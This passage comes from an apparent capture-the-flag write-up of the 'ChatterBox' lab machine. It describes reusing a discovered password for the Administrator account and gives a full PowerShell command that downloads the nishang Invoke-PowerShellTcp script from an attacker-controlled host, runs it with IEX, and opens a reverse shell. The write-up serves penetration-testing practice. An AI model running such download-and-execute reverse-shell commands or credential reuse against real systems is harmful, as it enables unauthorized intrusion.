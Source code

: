 - we also discover some credentials as well

![](assets/ChatterBox_assets/Pasted%20image%2020230619112944.png)

- so we can attempt using the credentials found, Alfred and Welcome! with smbclient and we can see that we can list the shares now

![](assets/ChatterBox_assets/Pasted%20image%2020230619125102.png)

- So now that we found some credentials, why don't we try reusing the password found for the Administrator account instead?
- using powershell, so firstly we create PSCredential Objects using the commands

```shell
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator',$passwd)
```

- then we can get a reverse shell in our listener using the command

```shell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4443" -Credential $creds
```
- so what we did with the command above is we imported and executed a reverse powershell script at [nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang (github.com)](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- so we have a python server spun up in the directory containing this powershell script and we also have the netcat listener on port 4443 to receive the reverse shell

- so we can see that we have a Powershell shell
